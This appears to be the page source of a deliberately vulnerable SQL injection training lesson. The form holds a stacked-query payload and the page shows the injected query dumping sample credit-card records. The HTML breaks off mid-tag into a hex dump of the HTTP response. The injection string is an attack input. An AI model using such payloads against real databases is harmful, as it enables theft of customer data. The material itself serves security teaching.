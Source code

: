 
	<!-- HTML fragment correpsonding to the lesson content -->


	<div id="lessonContent">

	    SQL injection attacks represent a serious threat to any database-driven site. The methods behind an attack are easy to learn and the damage caused can range from considerable to complete system compromise. Despite these risks, an incredible number of systems on the internet are susceptible to this form of attack.
	<br><br>
	Not only is it a threat easily instigated, it is also a threat that, with a little common-sense and forethought, can easily be prevented.<br>
	<br>
	It is always good practice to sanitize all input data, especially data that will used in OS command, scripts, and database queries, even if the threat of SQL injection has been prevented in some other manner.<br>
	<p><b>General Goal(s):</b> </p>
	The form below allows a user to view their credit card numbers. Try to inject an SQL string that results in all the credit card numbers being displayed. Try the user name of 'Smith'.
	</div>
	<div id="message" class="info"><BR> * Now that you have successfully performed an SQL injection, try the same type of attack on a parameterized query.  Restart the lesson if you wish to return to the injectable query.</div>


	<div id="lessonContent"><form accept-charset='UNKNOWN' method='POST' name='form' action='#attack/538385464/1100' enctype=''><p>Enter your last name:<input name='account_name' type='TEXT' value="Smith'; select * from user_data--"><input name='SUBMIT' type='SUBMIT' value='Go!'><pre>SELECT * FROM user_data WHERE last_name = 'Smith'; select * from user_data--'</pre><table cellpadding='1' border='1'><tr><td><b>USERID</b></td><td><b>FIRST_NAME</b></td><td><b>LAST_NAME</b></td><td><b>CC_NUMBER</b></td><td><b>CC_TYPE</b></td><td><b>COOKIE</b></td><td><b>LOGIN_COUNT</b></td></tr><tr><td>101</td><td>Joe</td><td>Snow</td><td>987654321</td><td>VISA</td><td>&nbsp;</td><td>0</td></tr><tr><td>101</td><td>Joe</td><td>Snow</td><td>2234200065411</td><td>MC</td><td>&nbsp;</td><td>0</td></tr><tr><td>102</td><td>John</td><td>Smith</td><td>2435600002222</td><td>MC</td><td>&nbsp;</td><td>0</td></tr><tr><td>102</td><td>John</td><td>Smith</td><td>4352209902222</td><td>AMEX</td><td>&nbsp;</td><td>0</td></tr><tr><td>103</td><td>Jane</td><td>Plane</td><td>123456789</td><td>MC</td><td>&nbsp;</td><td>0</td></tr><tr><td>103</td><td>Jane</td><td>Plane</td><td>333498703333</td><td>AMEX</td><td>&nbsp;</td><td>0</td></tr><tr><td>10312</td><td>Jolly</td><td>Hershey</td><td>176896789</td><td>MC</td><td>&nbsp;</td><td>0</td></tr><tr><td>10312</td><td>Jolly</td><td>Hershey</td><td>333300003333</td><td>AMEX</td><td>&nbsp;</td><td>0</td></tr><tr><td>10323</td><td>Grumpy</td><td>youaretheweakestlink</td><td>673834489</td><td>MC</td[!http]
	0x0000:  0ad7 390b 1b22 0a4d 3dab f800 0800 4500  ..9..".M=.....E.
	0x0010:  0b84 12ea 4000 3f06 9854 c0a8 02f7 c0a8  ....@.?..T......
	0x0020:  00ee 0050 5d27 ea47 1e9b b256 9463 8010  ...P]'.G...V.c..
	0x0030:  0348 90ac 0000 0101 080a 0000 efd5 0000  .H..............
	0x0040:  ed15 4854 5450 2f31 2e31 2032 3030 204f  ..HTTP/1.1.200.O
	0x0050:  4b0d 0a53 6572 7665 723a 2041 7061 6368  K..Server:.Apach
	0x0060:  652d 436f 796f 7465 2f31 2e31 0d0a 436f  e-Coyote/1.1..Co
	0x0070:  6e74 656e 742d 5479 7065 3a20 7465 7874  ntent-Type:.text
	0x0080:  2f68 746d 6c3b 6368 6172 7365 743d 4953  /html;charset=IS
	0x0090:  4f2d 3838 3539 2d31 0d0a 436f 6e74 656e  O-8859-1..Conten
	0x00a0:  742d 4c65 6e67 7468 3a20 3332 3539 0d0a  t-Length:.3259..
	0x00b0:  4461 7465 3a20 5475 652c 2032 3320 4a61  Date:.Tue,.23.Ja
	0x00c0:  6e20 3230 3138 2030 353a 3036 3a31 3320  n.2018.05:06:13.
	0x00d0:  474d 540d 0a0d 0a0a 0a0a 0a0a 3c21 2d2d  GMT.........<!--
	0x00e0:  2048 544d 4c20 6672 6167 6d65 6e74 2063  .HTML.fragment.c
	0x00f0:  6f72 7265 7073 6f6e 6469 6e67 2074 6f20  orrepsonding.to.
	0x0100:  7468 6520 6c65 7373 6f6e 2063 6f6e 7465  the.lesson.conte
	0x0110:  6e74 202d 2d3e 0a0a 0a3c 6469 7620 6964  nt.-->...<div.id
	0x0120:  3d22 6c65 7373 6f6e 436f 6e74 656e 7422  ="lessonContent"
	0x0130:  3e0a 2020 2020 0a20 2020 2053 514c 2069  >..........SQL.i
	0x0140:  6e6a 6563 7469 6f6e 2061 7474 6163 6b73  njection.attacks
	0x0150:  2072 6570 7265 7365 6e74 2061 2073 6572  .represent.a.ser
	0x0160:  696f 7573 2074 6872 6561 7420 746f 2061  ious.threat.to.a
	0x0170:  6e79 2064 6174 6162 6173 652d 6472 6976  ny.database-driv
